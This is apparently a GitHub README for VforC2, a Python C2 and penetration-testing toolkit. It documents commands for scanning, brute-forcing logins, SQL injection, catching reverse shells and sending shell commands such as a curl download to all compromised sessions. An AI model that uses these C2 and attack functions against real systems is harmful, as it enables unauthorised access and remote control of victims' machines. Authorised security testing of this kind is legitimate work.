 # About VforC2 (repo is OUTDATED & Will not be updated)
VforC2 or v4c2 is a C2 & hacking toolkit application coded in python. It contains modules that utilize penetration testing tools that typically come pre-installed in security oriented operating systems. It is meant to be used via the command line in Kali Linux or similar OS. Enter the associated commands to call modules, enabling you to listen for incoming connections, send shell commands to one or many connected clients, run vulnerability scans, preform brute force attacks, or simply interact with the regular terminal while holding onto connections in the background. I coded it with my preferences in mind and to interact with my custom administration tool/backdoor but any reverse shell connection type will do.

Currently contains modules that call the following (usually preinstalled) tools: Nmap, dirb, ffuf, sqlmap, owasp-zap and hydra. 
Base kali may not have ffuf but it is easily downloaded with "sudo apt-get install ffuf"

Additionally it utilizes Sublist3r/subrute from https://github.com/aboul3la/Sublist3r

## Installation
```
git clone https://github.com/V1236/VforC2.git
```

## Dependencies:
Many python dependencies are utilized and can be installed using the requirements file:
```
sudo python3 -m pip install -r requirements.txt
```

## Usage
```
After installation and dependencies, navigate to the directory and isue "python3 VforC2.py" from the command line.
Begin with the "help" command and go from there. Currently it supports the following:
Command | Description
------- | -----------
help | Display this list. More commands to come in future updates.
bash | Enters a bash terminal. The script is still running. Use exit to return.
arp | Does an ARP scan to discover hosts on the local network. Needs root.
ping | Calls nmap to discover hosts using a ping scan.
scan | Calls nmap preform a scan of your choosing.
chmac | Changes your MAC address. Needs Root.
spider | Crawls the HTML of a target website for interesting endpoints such as .js.
dbust | Performs directory busting utilizing dirb to look for hidden directories on a target website.
sbust | Performs quick subdomain busting utilizing Sublist3r to look for subdomains on a target website.
sbrute | Performs subdomain busting utilizing subbrute with a wordlist to look for subdomains on a target website.
vulnweb | Calls owasp-zap for web app vulnerability scanning.
vulnport | Calls nmap vulners for port based vulnerability scanning.
login | Utilizes hydra to preform a brute force attack on a login point.
fuzz | Utilizes ffuf to quickly enumerate endpoints on a target website.
sqli | Utilizes sqlmap to attempt sql injection on a target endpoint.
listen *port* | Begin listening for incoming connections. Received connections are displayed.
sessions | Lists all incoming connections aka available sessions.
session 1-50 | Enters an interactive state with one session. Default code accepts up to 50 sessions.
sendall *shell command* | Sends a shell command to be executed on all active sessions.
background | Exits the interactive state with a session and returns to the main prompt.
exit | Ends the program. If sessions are active also use Cntrl + C.
clear | Clears the screen.

```

### Examples
* To start:
``python3 VforC2.py``
or
``sudo python3 VforC2.py``
(some modules require root)

* To return to the terminal without exiting the script:
``bash``

* To listen for incoming connections on port 4444:
``listen 4444``

* To execute the command "curl -O example.com/test.txt" on all active sessions:
``sendall curl -O example.com/test.txt``

## Version
**Current version is 4.0**

## Thanks
